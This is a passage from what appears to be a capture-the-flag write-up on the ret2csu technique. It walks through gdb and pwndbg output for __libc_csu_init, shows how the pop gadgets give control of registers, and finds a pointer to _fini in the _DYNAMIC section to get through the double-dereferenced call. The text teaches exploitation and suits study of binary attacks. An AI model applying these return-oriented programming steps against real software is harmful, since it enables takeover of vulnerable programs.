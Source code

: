 ```
   0x0000000000400680 <+64>:    mov    rdx,r15
   0x0000000000400683 <+67>:    mov    rsi,r14
   0x0000000000400686 <+70>:    mov    edi,r13d
   0x0000000000400689 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040068d <+77>:    add    rbx,0x1
   0x0000000000400691 <+81>:    cmp    rbp,rbx
   0x0000000000400694 <+84>:    jne    0x400680 <__libc_csu_init+64>
   0x0000000000400696 <+86>:    add    rsp,0x8
   0x000000000040069a <+90>:    pop    rbx
   0x000000000040069b <+91>:    pop    rbp
   0x000000000040069c <+92>:    pop    r12
   0x000000000040069e <+94>:    pop    r13
   0x00000000004006a0 <+96>:    pop    r14
   0x00000000004006a2 <+98>:    pop    r15
   0x00000000004006a4 <+100>:   ret   
```


We see in this function that line 64 sets the rdx redgister to r15 and on line 98 we can control r15 with the pop instruction right before the ret. The problem is that on line 73, there is a relitive call to the function pointed to by \[r12+rbx\*8\]. Now we control r12 (see line 92) and rbp, however that call is double de refrenced. So the execution will continue to happen at \[r12+rbx\*8\] -> address -> start_of_call. So we have to find a do nothing function, which has a function pointer pointing to it somewhere in memory. 

So let's start up the program and break in gdb right before our exploit starts and see if we can find any function pointers to use. In the second article I referenced, I noticed this line, "In \_DYNAMIC variable ie. .dynamic section of executable we can find pointers to \_init and \_fini section." So let's print off the values in dynamic right now.


```
pwndbg> x/30gx &_DYNAMIC 
...
0x600e30:       0x000000000000000c      0x00000000004004d0
0x600e40:       0x000000000000000d      0x00000000004006b4
0x600e50:       0x0000000000000019      0x0000000000600df0
...
```

A couple of those values look familarish. The 400 values are the range of the plt (which we can call, so pointers to functions) and the 600 is around the got (which are pointers to functions). So now we just got to figure out which functions these are.

looking at 0x4004d0 we see
```
pwndbg> tele 0x4006b4 20
00:0000│  0x4006b4 (_fini) ◂— sub    rsp, 8
01:0008│  0x4006bc (_fini+8) ◂— ret    
```
which is basically a do nothing functions which we can call. So if we look at the rest of the function all we have to do is get past the jne on line 84 which is easy enough because we have control over all the registers used in the compare.

   0x0000000000400691 <+81>:    cmp    rbp,rbx
   0x0000000000400694 <+84>:    jne    0x400680 <\_\_libc_csu_init+64>

